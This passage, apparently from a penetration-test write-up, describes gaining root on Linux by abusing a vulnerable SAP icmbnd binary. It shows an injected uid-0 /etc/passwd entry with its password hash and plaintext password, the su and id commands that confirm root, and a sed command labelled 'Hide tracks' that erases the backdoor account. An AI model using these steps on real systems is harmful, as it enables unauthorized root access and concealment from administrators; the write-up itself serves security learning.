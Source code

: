 The exploit worked! It appended our user lekos to /etc/passwd, but also dumped a bunch of SAP trace logs into the file, corrupting its format. This is expected behavior from the vulnerable icmbnd binary.

Despite the corruption, the line:

```bash
lekos:$1$feO36Gm2$NhxHh6Oa00PhW/X.K9Fvw/:0:0::/root:/bin/sh
```

remains valid and parsable by the system. We could now log in as lekos with our password.


#### Step 3: Profit
```bash
su - lekos
Password: epsteinddntKILLhmself911
```
Now:
```bash
id
uid=0(lekos) gid=0(root) groups=0(root)
```

![Rooted](/assets/images/giphy.gif)
### Post-Exploitation

Hide tracks
```bash
sed -i '/lekos/d' /etc/passwd
```
Also nuked trc logs that spilled from icmbnd.

### Why the others failed
Dirty Pipe → Wrong kernel

Dirty COW → Patched

AF_PACKET → RNG trash, too many retries

icmbnd → SAP admins forgot their own toys. That’s the door in

### Score Board
Exploits tried: 4

Success: 1 (enough)

Time to root: ~3 hours including rage

Root method: icmbnd file append (CVE-2024-33005)

### Closing Thoughts
Admins patch the Linux kernel. They brag about it. But their weird enterprise binaries? Nobody’s looking. That’s where the gold is.

Lesson: If the kernel plays hard to get, always pivot to the app layer.

